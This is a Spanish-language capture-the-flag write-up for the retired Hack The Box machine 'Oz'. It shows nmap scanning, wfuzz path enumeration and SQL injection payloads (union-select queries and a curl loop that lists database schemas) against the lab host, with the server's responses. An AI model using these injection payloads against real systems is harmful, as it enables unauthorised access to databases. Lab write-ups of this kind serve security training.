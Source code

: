 ```yaml
---
layout: post
title:  "Maquina  Retirada Oz de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada OZ
tags: HTB, SQLI, SSTI(Server Side Template Injection), Port Knocking, Portainer, Dockers, Maquinas Retiradas, Writeup
---
```


# OZ ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.96       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```
Procedemos con la herramienta `Wfuzz` a enumerar rutas y directorios
```bash
# wfuzz -c --hc=404 -w /usr/share/wordlist/rockyou.txt http://10.10.10.96/FUZZ
"/users/"
```
Probamos a seguir enumerando con la herramienta `Wfuzz` por la ruta `/users/FUZZ` y nos da un fallo de `Internal Server Error` cuando llega a la `'`
Sera vulnerable a una `Injeccion SQL`?
```bash
Probamos a hacer un "' order by 1-- -" y nos responde un "NULL"
```
Con esto verificamos que es vulnerable a SQLI y procedemos a realizar las siguientes consultas SQLI:
```mysql
Consulta 1:
"' union select database()-- -"
10.10.10.96/users/'%20union%20select%20database()--%20-			  RESPUESTA DEL SERVIDOR:	“ozdb” Base de Datos en USO

Consulta 2:
"' union select user()-- -"
10.10.10.96/users/'%20union%20select%20user()--%20-						RESPUESTA DEL SERVIDOR: "dorthi@10.100.10.6"   un contenedor ?? de donde es esta IP ¿¿??

Consulta 3:
usamos Curl para hacer las peticiones: 
"' union select schema_name from information_schema.shemata limit 0,1-- -" e iteramos sobre el valor de 0 con un bucle para $i y sacar todas los nombres de las bases de datos
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20schema_name%20from%20information_schema.schemata%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "information_schema"
  "username": "mysql"
```